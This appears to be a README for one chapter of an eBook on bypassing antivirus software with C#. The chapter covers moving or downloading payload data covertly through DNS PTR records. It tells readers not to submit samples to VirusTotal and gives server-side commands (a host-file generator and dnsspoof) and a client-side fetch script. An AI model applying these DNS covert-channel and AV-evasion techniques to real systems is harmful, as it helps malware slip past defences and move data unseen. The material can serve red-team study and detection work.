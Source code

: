 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 3 : DATA Transferring / Downloading Method by DNS Traffic (PTR Records)

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 3 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH3

Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .


# using these scripts step by step :

# (Server side)

./DnsHostCreator.sh SourceTextFile.txt DomainName ChunkNumber

./DnsHostCreator.sh text.txt Test.com 20 > myhost.txt

dnsspoof -f myhost.txt

# (Client side)

./NativePayload_DNS.sh DomainName TargetDNSServer delay

./NativePayload_DNS.sh Test.com 192.168.1.10 3
